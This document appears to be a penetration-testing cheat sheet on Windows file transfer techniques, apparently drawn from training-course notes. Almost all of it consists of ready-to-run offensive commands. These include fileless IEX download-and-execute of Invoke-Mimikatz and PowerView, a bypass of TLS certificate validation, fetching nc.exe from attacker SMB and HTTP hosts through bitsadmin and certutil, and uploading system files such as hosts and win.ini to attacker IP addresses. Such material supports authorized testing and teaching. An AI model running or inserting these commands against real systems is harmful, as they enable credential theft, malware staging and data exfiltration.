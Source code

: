 ```yaml
---
layout: default
---
```

# File Transfer

## Windows File Transfer Method

We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it

```
PS C:\> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("content"))
```
* * *

#### PowerShell DownloadFile Method

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

```
PS C:\>(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
```
PS C:\>(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

#### PowerShell DownloadString - Fileless Method

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
> IEX also accepts pipeline input.

#### PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

```
PS C:\> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
#### Common Errors with PowerShell

```
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException

PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

* * *

### SMB Downloads

#### Copy a File from the SMB Server

```
C:\> copy \\192.168.220.133\share\nc.exe
```
> New versions of Windows block unauthenticated guest access, as we can see in the following command:

> To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine

#### Mount the SMB Server with Username and Password

```
C:\> net use n: \\192.168.220.133\share /user:test test
```

```
C:\> copy n:\nc.exe
```

### Upload Operations

#### PowerShell Base64 Encode & Decode

```
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte)
```

```
PS C:\> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
> We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.

#### PowerShell Web Uploads

We can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses **Invoke-RestMethod** to perform the upload operations. The script accepts two parameters **-File**, which we use to specify the file path, and **-Uri**, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
#### PowerShell Base64 Web Upload

Another way to use PowerShell and base64 encoded files for upload operations is by using **Invoke-WebRequest** or **Invoke-RestMethod** 

```
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

* * *

### LOLBAS

use CertReq.exe as an example

#### Upload win.ini to our attackbox

```
C:\> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

#### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

```
PS C:\> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\Desktop\nc.exe
```
> PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

```
PS C:\> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil

Download a File with Certutil

```
C:\> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

```
C:\> certutil -urlcache -split -f http://10.10.10.32/nc.exe
```
* * *


